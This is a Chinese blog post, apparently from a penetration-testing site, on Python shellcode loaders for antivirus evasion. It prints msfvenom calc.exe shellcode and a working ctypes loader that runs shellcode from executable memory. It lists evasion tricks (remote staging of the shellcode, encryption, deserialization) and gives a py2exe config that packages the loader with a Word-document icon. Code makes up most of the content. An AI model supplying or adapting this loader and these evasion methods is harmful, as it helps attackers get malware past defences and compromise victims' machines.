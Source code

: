 ```yaml
---
title: Python ShellCode加载器简述
layout: post
post-image: /assets/images/beijita.jpg
description: 免杀是一个长期而艰巨的工程
tags:
- 内网渗透
- Coblat Strike
- 免杀
---
```


# Python ShellCode加载器简述

​                                                                                                                       ——Little Tea     
# Python ShellCode加载器

## 什么是ShellCode

shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制之机械码，以其经常让攻击者获得shell而得名。shellcode常常使用机器语言编写。 可在暂存器eip溢出后，塞入一段可让CPU执行的shellcode机械码，让电脑可以执行攻击者的任意指令。

简单说，shellcode即为一段用于计算机执行命令的指令代码。

如使用msf生成一段调用机器计算器的指令

`msfvenom -p windows/x64/exec CMD=calc.exe -f python`

shellcode如下

```
buf =  b""
buf += b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41"
buf += b"\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48"
buf += b"\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f"
buf += b"\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c"
buf += b"\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52"
buf += b"\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b"
buf += b"\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0"
buf += b"\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56"
buf += b"\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9"
buf += b"\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0"
buf += b"\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58"
buf += b"\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
buf += b"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0"
buf += b"\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
buf += b"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
buf += b"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"
buf += b"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41"
buf += b"\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41"
buf += b"\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06"
buf += b"\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
buf += b"\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x2e\x65"
buf += b"\x78\x65\x00"
```

## 什么是shellcode加载器

shellcode加载器可理解为专门用于加载计算机指令代码（shellcode）的一段程序或工具

## 常用的python shellcode加载器

```
#!/usr/bin/python3
import ctypes

#shellcode 放这个位置
c = b"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31"

shellcode = bytearray(c)

ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))

buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```

## 免杀方法

1.分离免杀：将shellcode放到公网，通过下载方式加载shellcode，或同时放到本地，执行shellcode加载器时可以同时加载shellcode。

2.shellcode加密：实验比较发现，python加载器将shellcode做一下简单加密解密处理后，可过部分杀软

3.反序列化：可将shellcode加载器的代码做序列化处理后，反序列化加载，实验发现可过大部分杀软。

## python可执行文件打包

pyinstaller

这个打包方式在个别的杀软会默认报毒，哪怕只是打包一个简单的输出语句

![image-20210926101728145](/assets/images/20210926/image-20210926101728145.png)

py2exe

可尝试使用这个打包方式，但是也有一个通病就是python的打包文件都比较大，大概在5m左右，不过，可以实现免杀效果好的话也是可以接受的。

打包代码如下：

```
# setup.py 用于py2exe打包
from distutils.core import setup
import py2exe
setup(
    options={
        'py2exe': {
            'optimize': 2, # 优化级别最高，
            'bundle_files': 1, # 将生成的调用文件打包进exe文件
            'compressed': 1, # 压缩
        },
    },
    windows=[{"script": "pyload.py", #需要打包的程序的文件路径，windows->GUI exe的脚本列表,console-> 控制台exe的脚本列表
              "icon_resources": [(1, "word.ico")]}], # 程序的图标的图片路径
    zipfile=None, # 不生成library.zip文件，则捆绑在可执行文件中
)
```

本文只是写一下python免杀的大致思路，病毒与反病毒是一个长期课程，更多的方法和思路要根据当前的网络环境和防护方式来实现。

注：本文参考小维师傅文章编写